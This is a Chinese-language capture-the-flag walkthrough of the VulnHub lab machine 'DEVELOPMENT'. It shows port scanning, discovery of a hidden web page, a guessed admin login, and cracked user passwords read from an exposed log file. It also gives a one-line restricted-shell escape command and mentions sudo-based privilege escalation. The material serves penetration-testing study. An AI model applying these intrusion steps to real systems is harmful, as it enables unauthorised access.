 # digitalworld.local: DEVELOPMENT

> https://download.vulnhub.com/digitalworld/devt-improved.7z

靶场IP：`192.168.32.200`

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.200                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 00:00 EDT
Nmap scan report for 192.168.32.200
Host is up (0.00064s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
113/tcp  open  ident?
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2222/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy  IIS 6.0

```

访问8080端口，我们得到了一些关于 `html_pages` 的线索。它可以是任何目录或网页。

![image-20220905120309561](../../.gitbook/assets/image-20220905120309561.png)

让我们深入研究源代码。在这里，他们正在谈论一些开发秘密页面，并且提到了`Patrick`，他可能是用户

![image-20220905120533139](../../.gitbook/assets/image-20220905120533139.png)

现在继续让我们浏览前面提到的网页 html_pages。在这里，我们可以再次看到一些 html 文件，其中" *development.html"*可能是我们感兴趣的。

![image-20220905120657518](../../.gitbook/assets/image-20220905120657518.png)

当您访问 development.html 时，您会发现`hackersecretpage`的提及似乎没有其他用处。

![image-20220905120804335](../../.gitbook/assets/image-20220905120804335.png)

我们再次浏览了相同的源代码，发现"`./developmentsecretpage`。这似乎是我们的秘密页面。

![image-20220905120821277](../../.gitbook/assets/image-20220905120821277.png)

如果您访问该页面，它将确认是开发机密页面和一个名为"`Patrick`"的 PHP 文件链接。

![image-20220905120857746](../../.gitbook/assets/image-20220905120857746.png)

如果我们访问文件链接，它会打开一个页面，其中包含另一个名为"Sitemap"的文件。

![image-20220905120936002](../../.gitbook/assets/image-20220905120936002.png)

当我们访问 /sitemap.php 时，我们点击了嵌入的链接，上面写着"点击这里注销"，原来是登录页面。

```
http://192.168.32.200:8080/developmentsecretpage/sitemap.php?logout=1
```

![image-20220905121050147](../../.gitbook/assets/image-20220905121050147.png)

我们刚刚尝试了用户名和密码的随机登录凭据`admin`和 `1234`，这是成功的。

![image-20220905121130011](../../.gitbook/assets/image-20220905121130011.png)

在这里，我们在页面顶部收到一条错误消息。所以我们在谷歌上搜索了一下。 我们在 Exploit-db 上发现了一个名为`/[path]/slog_users.txt`的漏洞利用，它容易受到 RFI 的攻击。参考 CVE 代码：2008-5762/63。

```
192.168.32.200:8080/developmentsecretpage/slog_users.txt
```

![image-20220905121217802](../../.gitbook/assets/image-20220905121217802.png)

解密哈希后，我们分别获得`intern`、`Patrick` 和 `qiu` 的明文密码，但没有获得 Admin 的密码。

```
intern:12345678900987654321
patrick:P@ssw0rd25
qiu:qiu
```

使用`intern`用户登录SSH。

![image-20220905121636259](../../.gitbook/assets/image-20220905121636259.png)

我们获得了受限 shell 的访问权限，我们只能在其中运行管理员允许的少数命令。

![image-20220905121730456](../../.gitbook/assets/image-20220905121730456.png)

因此，要导入正确的 tty shell，我们可以使用以下命令导入`/bin/bash`：

```
echo os.system('/bin/bash')
```

![image-20220905121831832](../../.gitbook/assets/image-20220905121831832.png)

切换到`patrick`用户，并且查看sudo列表

![image-20220905121931650](../../.gitbook/assets/image-20220905121931650.png)

提权

![image-20220905122055613](../../.gitbook/assets/image-20220905122055613.png)

![image-20220905122121663](../../.gitbook/assets/image-20220905122121663.png)